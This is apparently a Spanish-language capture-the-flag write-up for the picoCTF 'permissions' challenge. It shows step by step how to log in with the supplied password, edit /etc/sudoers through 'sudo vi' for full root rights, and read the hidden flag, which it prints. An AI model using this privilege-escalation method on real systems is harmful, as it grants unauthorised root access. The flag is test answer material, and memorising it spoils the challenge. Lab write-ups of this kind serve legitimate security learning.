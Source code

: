# 1 - permissions

## Descripcion:
* Can you read files in the root file? The system admin has provisioned an account for you on the main server: ssh -p 52733 picoplayer@saturn.picoctf.net Password: j4ks-9nxB-Can you login and read the root file?

## Solucion:
* ssh -p 51163 picoplayer@saturn.picoctf.net
* yes
* j4ks-9nxB-
* sudo -l
* j4ks-9nxB-
* cd /
* ls -l
* cd etc
* ls
* sudo vi sudoers
* picoplayer ALL=(ALL:ALL) ALL
* esc:
* wq!
* sudo -l
* sudo ls -a /root
* sudo cat /root/.flag.txt
* picoCTF{uS1ng_v1m_3dit0r_021d10ab}

## Notas:
* ssh -p 51163 picoplayer@saturn.picoctf.net
* Se conecta al servidor por SSH usando el puerto 51163.
* yes
* Acepta la clave del servidor (primera conexión).
* j4ks-9nxB-
* Contraseña del usuario picoplayer.
* sudo -l
* Muestra qué comandos puedes ejecutar con sudo (descubres que puedes usar vi como root).
* cd /
* Navega al directorio raíz del sistema.
* ls -l
* Lista archivos y directorios con detalles de permisos.
* cd etc
* Entra al directorio /etc/ (donde está sudoers).
* ls
* Lista archivos en /etc/ (buscas sudoers).
* sudo vi sudoers
* Abre el archivo sudoers con vi como root para editarlo.
* picoplayer ALL=(ALL:ALL) ALL
* Línea que agregas en sudoers para darte permisos totales de sudo.
* ESC :
* wq!
* En vi: sale del modo inserción (ESC), guarda y fuerza la salida (:wq!).
* sudo -l
* Verifica que ahora tienes permisos completos de sudo.
* sudo ls -a /root
* Lista archivos ocultos en el directorio /root/ (donde está la flag).
* sudo cat /root/.flag.txt
* Lee la flag oculta en /root/.flag.txt.
* tenemos la bandera

## Referencias: